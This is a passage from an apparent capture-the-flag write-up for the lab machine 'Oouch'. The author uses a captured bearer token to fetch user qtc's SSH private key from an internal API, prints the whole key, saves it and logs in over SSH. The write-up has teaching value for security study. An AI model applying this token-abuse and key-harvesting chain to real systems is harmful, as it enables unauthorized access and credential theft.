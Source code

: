     
    
    root@kali# curl -s authorization.oouch.htb:8000/api/get_ssh -H "Authorization: Bearer gm05wp2kDWhSmS3QrZmdEqgvFGoEKD" | jq .
    {
      "ssh_server": "consumer.oouch.htb",
      "ssh_user": "qtc",
      "ssh_key": "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAYEAqQvHuKA1i28D1ldvVbFB8PL7ARxBNy8Ve/hfW/V7cmEHTDTJtmk7\nLJZzc1djIKKqYL8eB0ZbVpSmINLfJ2xnCbgRLyo5aEbj1Xw+fdr9/yK1Ie55KQjgnghNdg\nreZeDWnTfBrY8sd18rwBQpxLphpCR367M9Muw6K31tJhNlIwKtOWy5oDo/O88UnqIqaiJV\nZFDpHJ/u0uQc8zqqdHR1HtVVbXiM3u5M/6tb3j98Rx7swrNECt2WyrmYorYLoTvGK4frIv\nbv8lvztG48WrsIEyvSEKNqNUfnRGFYUJZUMridN5iOyavU7iY0loMrn2xikuVrIeUcXRbl\nzeFwTaxkkChXKgYdnWHs+15qrDmZTzQYgamx7+vD13cTuZqKmHkRFEPDfa/PXloKIqi2jA\ntZVbgiVqnS0F+4BxE2T38q//G513iR1EXuPzh4jQIBGDCciq5VNs3t0un+gd5Ae40esJKe\nVcpPi1sKFO7cFyhQ8EME2DbgMxcAZCj0vypbOeWlAAAFiA7BX3cOwV93AAAAB3NzaC1yc2\nEAAAGBAKkLx7igNYtvA9ZXb1WxQfDy+wEcQTcvFXv4X1v1e3JhB0w0ybZpOyyWc3NXYyCi\nqmC/HgdGW1aUpiDS3ydsZwm4ES8qOWhG49V8Pn3a/f8itSHueSkI4J4ITXYK3mXg1p03wa\n2PLHdfK8AUKcS6YaQkd+uzPTLsOit9bSYTZSMCrTlsuaA6PzvPFJ6iKmoiVWRQ6Ryf7tLk\nHPM6qnR0dR7VVW14jN7uTP+rW94/fEce7MKzRArdlsq5mKK2C6E7xiuH6yL27/Jb87RuPF\nq7CBMr0hCjajVH50RhWFCWVDK4nTeYjsmr1O4mNJaDK59sYpLlayHlHF0W5c3hcE2sZJAo\nVyoGHZ1h7Pteaqw5mU80GIGpse/rw9d3E7maiph5ERRDw32vz15aCiKotowLWVW4Ilap0t\nBfuAcRNk9/Kv/xudd4kdRF7j84eI0CARgwnIquVTbN7dLp/oHeQHuNHrCSnlXKT4tbChTu\n3BcoUPBDBNg24DMXAGQo9L8qWznlpQAAAAMBAAEAAAGBAJ5OLtmiBqKt8tz+AoAwQD1hfl\nfa2uPPzwHKZZrbd6B0Zv4hjSiqwUSPHEzOcEE2s/Fn6LoNVCnviOfCMkJcDN4YJteRZjNV\n97SL5oW72BLesNu21HXuH1M/GTNLGFw1wyV1+oULSCv9zx3QhBD8LcYmdLsgnlYazJq/mc\nCHdzXjIs9dFzSKd38N/RRVbvz3bBpGfxdUWrXZ85Z/wPLPwIKAa8DZnKqEZU0kbyLhNwPv\nXO80K6s1OipcxijR7HAwZW3haZ6k2NiXVIZC/m/WxSVO6x8zli7mUqpik1VZ3X9HWH9ltz\ntESlvBYHGgukRO/OFr7VOd/EpqAPrdH4xtm0wM02k+qVMlKId9uv0KtbUQHV2kvYIiCIYp\n/Mga78V3INxpZJvdCdaazU5sujV7FEAksUYxbkYGaXeexhrF6SfyMpOc2cB/rDms7KYYFL\n/4Rau4TzmN5ey1qfApzYC981Yy4tfFUz8aUfKERomy9aYdcGurLJjvi0r84nK3ZpqiHQAA\nAMBS+Fx1SFnQvV/c5dvvx4zk1Yi3k3HCEvfWq5NG5eMsj+WRrPcCyc7oAvb/TzVn/Eityt\ncEfjDKSNmvr2SzUa76Uvpr12MDMcepZ5xKblUkwTzAAannbbaxbSkyeRFh3k7w5y3N3M5j\nsz47/4WTxuEwK0xoabNKbSk+plBU4y2b2moUQTXTHJcjrlwTMXTV2k5Qr6uCyvQENZGDRt\nXkgLd4XMed+UCmjpC92/Ubjc+g/qVhuFcHEs9LDTG9tAZtgAEAAADBANMRIDSfMKdc38il\njKbnPU6MxqGII7gKKTrC3MmheAr7DG7FPaceGPHw3n8KEl0iP1wnyDjFnlrs7JR2OgUzs9\ndPU3FW6pLMOceN1tkWj+/8W15XW5J31AvD8dnb950rdt5lsyWse8+APAmBhpMzRftWh86w\nEQL28qajGxNQ12KeqYG7CRpTDkgscTEEbAJEXAy1zhp+h0q51RbFLVkkl4mmjHzz0/6Qxl\ntV7VTC+G7uEeFT24oYr4swNZ+xahTGvwAAAMEAzQiSBu4dA6BMieRFl3MdqYuvK58lj0NM\n2lVKmE7TTJTRYYhjA0vrE/kNlVwPIY6YQaUnAsD7MGrWpT14AbKiQfnU7JyNOl5B8E10Co\nG/0EInDfKoStwI9KV7/RG6U7mYAosyyeN+MHdObc23YrENAwpZMZdKFRnro5xWTSdQqoVN\nzYClNLoH22l81l3minmQ2+Gy7gWMEgTx/wKkse36MHo7n4hwaTlUz5ujuTVzS+57Hupbwk\nIEkgsoEGTkznCbAAAADnBlbnRlc3RlckBrYWxpAQIDBA==\n-----END OPENSSH PRIVATE KEY-----"
    }
    

That’s an ssh key!

### SSH

I can save that key to a file (using `jq -r` to print the raw contents) :

    
    
    root@kali# curl -s authorization.oouch.htb:8000/api/get_ssh -H "Authorization: Bearer LBLemeQIcZZtSgPB0Ax54DpJ1h1vrF" | jq -r '.ssh_key' > id_rsa_oouch_qtc
    

And connect over SSH as qtc:

    
    
    root@kali# ssh -i ~/keys/id_rsa_oouch_qtc qtc@consumer.oouch.htb
    Linux oouch 4.19.0-8-amd64 #1 SMP Debian 4.19.98-1 (2020-01-26) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    